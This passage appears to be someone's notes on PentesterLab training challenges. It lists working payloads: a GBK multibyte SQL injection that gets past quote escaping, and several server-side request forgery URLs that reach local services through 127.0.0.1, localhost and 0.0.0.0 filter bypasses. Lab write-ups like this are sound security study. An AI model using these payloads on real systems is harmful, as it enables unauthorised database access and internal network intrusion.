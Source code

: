 notes:
- spaces are not always neccesary

### 06
chl:
url:
http://ptl-8a2c9558-1643b5d4.libcurl.st/

exploit:
- encoded `username=admin%bf%27+or+1%3D1+--+&password=`

notes:
- this can lead to problems `SET CHARACTER SET 'GBK';`, having the db driver and the db itself talking different charsets
- Mysql can filter `'` but it can be bypassed by `\xBF'` (URL-encoded as `%bf%27`)

## Server side request forgery

### 01
chl:
url:
http://ptl-f7ab7279-df88ef51.libcurl.st/?url=https://assets.pentesterlab.com/hacker.txt

exploit:
http://ptl-f7ab7279-df88ef51.libcurl.st/?url=http://127.0.0.1:1234/

notes:
- access to a local running service

### 02
chl:
url:
http://ptl-2769b50a-2eceee67.libcurl.st/?url=https://assets.pentesterlab.com/hacker.txt

exploit:
http://ptl-2769b50a-2eceee67.libcurl.st/?url=http://localhost:1234

notes:
- 127.0.0.1 is filtered, but not localhost

### 03
chl:
url:
http://ptl-a0218fff-f52ba07b.libcurl.st/?url=https://assets.pentesterlab.com/hacker.txt

exploit:
http://ptl-a0218fff-f52ba07b.libcurl.st/?url=http://0.0.0.0:1234

notes:
- 127.0.0.1 and localhost are filtered

### 04
chl:
url:
http://ptl-f5443d61-d11f71ec.libcurl.st/?url=https://assets.pentesterlab.com/hacker.txt
